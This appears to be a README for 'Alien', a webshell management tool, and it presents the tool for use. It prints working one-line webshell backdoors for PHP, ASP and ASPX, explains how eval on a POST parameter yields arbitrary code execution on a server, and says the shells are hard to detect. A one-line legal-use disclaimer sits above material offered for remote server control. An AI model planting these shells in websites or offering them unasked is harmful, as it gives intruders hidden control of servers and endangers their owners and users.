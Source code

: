 # Alien

Website Manager

## Disclaimer
This tool only use in legal pentest, reasearch and website management\
You should take the consequence if you use in illegal purpose.

## Language
C# .NET Framework V4.8

## OneShell
OneShell is a tool use in pentesting for control the server.\
It can be very tiny and very difficult to be found.
These are the simplest oneshell.

- PHP
```<?php @eval($_POST['password']);?>```
- ASP
```<%execute(request("password"))%>```
- ASPX
```<%@ Page Language="Jscript"%><%eval(Request.Item["password"])%>```
Also, Alien support asmx , ashx webshell

## JSP webshell
Original chopper jsp shell, but some addition.\
it can display image

## NodeJS webshell
Differenti to php, asp, aspx, jsp...\
It is difficult to use in pentestation, but use in management.

## Server Manager
- MySQL : PHP
- Access : https://github.com/malbuffer4pt/DBer
- SQL Server : ASP ASPX ASMX ASHX

## Principle
For PHP, eval() function can evaluate the string as a code.\
if eval() contains a controllable variable, then we can execute any code we like.\
Example: eval($_POST['a']);\
HTTP POST a=phpinfo();\
The the server will execute code "phpinfo();"

## Screenshot
![5](https://github.com/malbuffer4pt/Alien/blob/main/5.png)
![1](https://github.com/malbuffer4pt/Alien/blob/main/1.png)
![6](https://github.com/malbuffer4pt/Alien/blob/main/6.png)
![2](https://github.com/malbuffer4pt/Alien/blob/main/2.png)
![3](https://github.com/malbuffer4pt/Alien/blob/main/3.png)
![4](https://github.com/malbuffer4pt/Alien/blob/main/4.png)

## Acknowledgements
Every veteran who study in webshell.
